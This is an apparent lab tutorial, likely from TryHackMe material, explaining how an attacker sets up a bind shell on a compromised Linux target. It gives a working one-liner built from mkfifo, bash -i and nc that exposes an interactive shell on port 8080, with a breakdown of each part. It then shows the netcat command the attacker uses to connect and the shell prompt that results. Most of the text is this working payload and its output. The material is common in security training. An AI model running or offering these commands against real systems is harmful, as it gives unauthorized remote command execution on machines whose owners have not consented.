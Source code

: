 # Bind Shell Overview

A bind shell binds a port on the compromised system, listening for incoming connections. When an attacker connects, it exposes a shell session for remote command execution. This method is useful when the target does not permit outgoing connections but is less popular due to its increased risk of detection.

## Setting Up the Bind Shell on the Target

To create a bind shell, the attacker can execute the following command on the target machine:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

### Payload Explanation:

- `rm -f /tmp/f`: Removes any existing named pipe at /tmp/f to avoid conflicts.
- `mkfifo /tmp/f`: Creates a named pipe (FIFO) at /tmp/f for communication.
- `cat /tmp/f`: Reads data from the named pipe, waiting for input.
- `| bash -i 2>&1`: Pipes the input to an interactive bash shell, redirecting errors to standard output.
- `| nc -l 0.0.0.0 8080`: Listens for connections on all interfaces (0.0.0.0) at port 8080. This will expose the shell to the attacker once they connect.
- `> /tmp/f`: Sends command outputs back into the named pipe for bidirectional communication.

### Terminal on the Target Machine (Bind Shell Setup)

When the command is executed, the target machine will wait for an incoming connection.

```bash
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

## Attacker Connects to the Bind Shell

Once the target is listening, the attacker can connect using Netcat with the following command:

```bash
nc -nv TARGET_IP 8080
```

### Command Explanation:

- `nc`: Invokes Netcat to establish the connection.
- `-n`: Disables DNS resolution for faster operation.
- `-v`: Enables verbose mode for detailed connection output.
- `TARGET_IP`: The IP address of the target machine.
- `8080`: The port number on which the bind shell is listening.

### Attacker Terminal (After Connection)

After executing the connection command, the attacker receives a shell:

```bash
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

This indicates that the attacker has successfully connected to the bind shell and can now execute commands on the target system.